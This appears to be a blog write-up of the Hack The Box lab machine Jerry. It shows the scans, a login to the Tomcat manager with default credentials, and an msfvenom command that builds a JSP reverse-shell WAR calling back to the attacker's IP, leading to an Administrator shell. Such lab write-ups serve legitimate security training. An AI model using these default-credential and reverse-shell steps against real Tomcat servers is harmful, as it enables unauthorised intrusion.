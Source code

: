 ```yaml
---
layout: PostSimple
date: 2020-04-20
title:     "Hack The Box - Jerry"
tags: ['windows','easy','tomcat']
layout: PostSimple
---
```



![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/144](https://www.hackthebox.eu/home/machines/profile/144)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    [DIR](DIR)          .
06/18/2018  11:31 PM    [DIR](DIR)          ..
06/19/2018  06:43 AM    [DIR](DIR)          Contacts
06/19/2018  07:09 AM    [DIR](DIR)          Desktop
06/19/2018  06:43 AM    [DIR](DIR)          Documents
06/19/2018  06:43 AM    [DIR](DIR)          Downloads
06/19/2018  06:43 AM    [DIR](DIR)          Favorites
06/19/2018  06:43 AM    [DIR](DIR)          Links
06/19/2018  06:43 AM    [DIR](DIR)          Music
06/19/2018  06:43 AM    [DIR](DIR)          Pictures
06/19/2018  06:43 AM    [DIR](DIR)          Saved Games
06/19/2018  06:43 AM    [DIR](DIR)          Searches
06/19/2018  06:43 AM    [DIR](DIR)          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    [DIR](DIR)          .
06/19/2018  07:09 AM    [DIR](DIR)          ..
06/19/2018  07:09 AM    [DIR](DIR)          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    [DIR](DIR)          .
06/19/2018  07:09 AM    [DIR](DIR)          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```
